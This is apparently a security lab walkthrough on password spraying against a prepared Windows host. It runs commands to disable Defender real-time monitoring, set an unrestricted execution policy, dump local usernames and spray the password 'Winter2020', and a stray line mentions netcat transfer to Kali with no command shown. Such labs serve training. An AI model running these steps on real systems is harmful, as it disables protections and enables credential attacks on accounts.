




# Password Spray

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Let's get started by opening a Terminal as Administrator

Now, let's open a command Prompt:

C:\Windows\system32> `cd \tools`

C:\Tools> `200-user-gen.bat`

It should look like this:

Now, we will need to start PowerShell to run DumpUsers.ps1. For simplicity, we will use the script that gets a list of usernames from the windows host and saves it to the C:\temp\UserList.txt file.

C:\Tools> `powershell`

PS C:\Tools> `Set-ExecutionPolicy Unrestricted`

PS C:\Tools> `.\DumpUsers.ps1`

It should look like this:

Next we are going to try authenticate against SMB (port 445) which we know is open by the results of previous NMAP scan.
For now lets transfer a list of usernames to our kali machine by netcat. To do it we need the ip of our machine and run the next commands.

PS C:\Tools> `Invoke-LocalPasswordSpray -Password Winter2020`

It should look like this:

Now we need to clean up and make sure the system is ready for the rest of the labs:

PS C:\Tools> `exit`

C:\Tools> `user-remove.bat`

